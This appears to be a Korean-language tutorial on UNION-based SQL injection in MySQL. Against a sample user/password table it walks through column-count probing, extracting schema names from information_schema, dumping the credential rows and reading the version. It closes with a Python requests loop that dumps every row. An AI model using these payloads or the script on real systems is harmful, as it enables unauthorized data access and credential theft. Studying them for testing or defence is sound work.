 # UNION Based sql injection 

__예시 mysql 환경__

```sql
database name -> user

table name -> UserDB

columns -> id, pw

mysql[user]>SELECT * FROM UserDB;

+-------+------------+
| id    | pw         |
+-------+------------+
| admin | passwd     |
| guest | aaa        |
| aaaaa | a          |
+-------+------------+

```

__예시 id 검색__

```sql
SELECT * FROM UserDB WHERE id='';
```


### UNION sql injection 이란?

데이터 베이스에 우리가 입력한 임의의 값으로 요청한다면 해당 임의의 값을 조작하여 UNION 연산자를 이용해 정보를 빼오는 기법이다.

__예시__

```sql
SELECT * FROM UserDB WHERE id='';
```

해당 sql query로 id Column에 값을 입력받는다면

UNION Sql injection 공격을 통해

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';
```

이런식으로 union select (원하는 출력값) 이런 형식으로 요청을 하여 데이터 정보를 노출시킨다.

__UNION 연산자는 앞에 써져있는 쿼리의 컬럼 개수와 일정해야지 출력이 가능하다.__

만약에

```sql
SELECT id FROM UserDB id='' union select 1,2 --'';
```

union는 출력되는 컬럼 개수가 같아야지만 사용 가능하다.

하지만 위의 쿼리처럼 처음 select 에서는 id 즉 하나의 열만 출력하는데 
union select에서는 1,2를 출력하면서 2개의 행을 출력하게 되버린다.

근데 union 연산자는 행이 같아야지만 가능하기때문에 에러를 뱉을것이다.

위의 쿼리에서 union을 이용하기 위해서는

```sql
SELECT id FROM UserDB id='' union select 1 --''; 
```

이처럼 열의 개수에 따라 union 연산자를 만족시켜야된다.

* * *
<br>


### UNION Sql injection Columns Number

__union sql injection를 이용하여 컬럼 개수를 찾이 위해서는__

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5,6 --'';
```

이처럼 무차별로 대입을 하여 해당 쿼리에서 출력할려는 컬럼 개수가 몇개있는지 유추함으로서 원하는 정보를 빼네올 수 있다.

* * *
<br>

### UNION Sql injection GET DATABASE Name

DATABASE 이름을 가져오기 위해서는

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT database(),2 --'';
```

이런식으로 database() 함수를 이용하여 데이터가 바로 노출시킬 수 있다.

하지만 해당 데이터베이스가아닌 모든 데이터베이스 이름을 빼오고 싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (select DISTINCT table_schema from information_schema.tables limit 0,1),2 --'';
```

이처럼
 
```sql
select DISTINCT table_schema from information_schema.tables limit 0,1;
```
위의 키워드를 이용하여 모든 데이터베이스 이름을 뽑아올 수 있다.

만약에 위의 union sql injection가 성공했다면
limit 0,1 를

limit 1,1
limit 2,1
limit 3,1.... 이런식으로 무차별로 대입을 시킨 후 정보를 빼온다.

* * *
<br>

### UNION Sql injection GET TABLE Name

만약 자신이 원하는 데이터베이스의 테이블을 가져오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE NAME' limit 0,1),2 --'';
```

위처럼 DATABASE NAME 부분에 TABLE NAME을 얻고싶은 데이터베이스 이름을 넣으면 된다.

모든 테이블 이름을 얻고 싶다면 limit 0,1 을 

```sql
limit 1,1 
limit 2,1
limit 3,1
limit 4,1....
```

이런식으로 원하는 열의 테이블을 뽑아올 수 있다.

하지만 모든 테이블의 이름을 빼오고싶다면

```sql
(SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE NAME' limit 0,1)
에서 where 를 제거하여
(SELECT table_name FROM information_schema.tables limit 0,1)
```
이런식으로 모든 테이블 뽑아오는것이 가능하다.

* * *
<br>

### UNION Sql injection GET Columns Name

만약 자신이 원하는 테이블의 컬럼을 가져오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT column_name FROM information_schema.columns WHERE table_name='table name' limit 0,1),2 --'';
```

위처럼 table name에 자신이 원하는 테이블의 컬럼을 하나씩 뽑아올 수 있다.

만약 모든 컬럼을 뽑아오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT column_name FROM information_schema.columns limit 0,1),2 --'';
```

WHERE 만 없어주면은 가능하다.

### UNION Sql injection GET Columns Deta

자신이 원하는 테이블의 데이터를 빼오기 위해서는 사전에

테이블 이름과 컬럼 이름 정보가 필요하다 해당 정보를 얻는법은 위에있으니 참고하면 된다.

만약에 테이블 , 컬럼 이름을 알고있다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT id FROM UserDB limit 0,1),(SELECT pw FROM UserDB limit 0,1) --'';
```

이런식으로 () 안에 자신이 원하는 테이블의 데이터를 뽑아 정보를 탈취할 수 있다.

* * *
<br>

### UNION Sql injection GET Version

데이터베이스의 버전 정보를 얻기위해서는 아주 간단하다.

version() 또는 @@version 를 이용하면 가능하다.

예로

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT @@version,2 --'';
SELECT * FROM UserDB WHERE id='' UNION SELECT version(),2 --'';
```

이처럼 자신이 사용하고있는 데이터베이스의 버전을 쉽게 탈취할 수 있다.

* * *
<br>

### UNION Sql injection python script

만약에 union sql injection를 이용하더라도 모든 데이터를 뽑아오고 싶을 경우에는

예로 게시판에 자신이 원하는 union sql injection 를 이용하여 데이터를 노출시킬 수 있다면

python 으로 간단하게 가능하다.

```py
import requests
for i in range(1,100):
    r = requests.get(url = f"url?id='' UNION SELECT (SELECT id FROM UserDB limit {i},1),(SELECT pw FROM UserDB limit {i},1)")
    print(r.text)
```

이런식으로 limit n,n 을 이용하셔 for 를 돌리면서 1씩 늘리고 자신이 원하는 모든 데이터를 뽑아올 수 있다.

테이블 , 컬럼 , 데이터베이스는 위의 python 스크립트에서 select id from userdb 부분만 자신이 원하는 구문으로 바꾸면 된다.
